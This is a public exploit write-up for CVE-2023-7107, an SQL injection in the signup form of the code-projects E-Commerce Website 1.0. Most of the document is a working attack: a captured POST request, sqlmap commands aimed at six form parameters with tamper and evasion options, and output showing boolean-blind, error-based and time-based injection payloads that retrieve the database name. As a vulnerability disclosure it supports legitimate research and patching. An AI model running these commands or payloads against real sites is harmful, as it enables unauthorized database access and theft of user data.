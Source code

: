 # CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Exploit Title:** CVE-2023-7107_E-Commerce Website - SQL Injection 3
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7107

## References: 
+ **CVE-2023-7107:** https://vuldb.com/?id.249002
+ https://www.cve.org/CVERecord?id=CVE-2023-7107

##  Description:
E-Commerce Website 1.0 allows SQL Injection via parameters 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' in "/Electricks/Electricks-shop/pages/user_signup.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill the the all form and click Create Account button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 427
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=sdqvs3v86m3s0vdqik7c5uah4g
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

submit=test&address=test&username=Test&email=test%40example.com&lastname=Test&middlename=Test&firstname=Test&contact=test&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'firstname', 'middlename', 'email', 'address', 'contact' and 'username' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p firstname --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4675586a WHERE 8114=8114 AND 5578=5578)||'&contact=test&password=Pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x59676a78 WHERE 1465=1465 AND (SELECT 6021 FROM(SELECT COUNT(*),CONCAT(0x7170707671,(SELECT (ELT(6021=6021,1))),0x717a707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&contact=test&password=Pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: submit=test&address=test&username=Test&email=test@example.com&lastname=Test&middlename=Test&firstname=Test'||(SELECT 0x4a6a6e4b WHERE 2213=2213 AND (SELECT 8358 FROM (SELECT(SLEEP(5)))jkvt))||'&contact=test&password=Pass
---
[22:05:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[22:05:28] [INFO] fetching current database
[22:05:28] [INFO] resumed: 'electricks'
current database: 'electricks'
```

+ current database: `electricks`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/bfffd456-06bc-42e9-b55e-ee361a6b8fb6)

+ Try to dump the db on other 5 parameters:
```
python sqlmap.py -r r.txt -p middlename --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p email --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p address --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p contact --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --random-agent tamper=between,randomcase --dbms mysql --batch --current-db
```
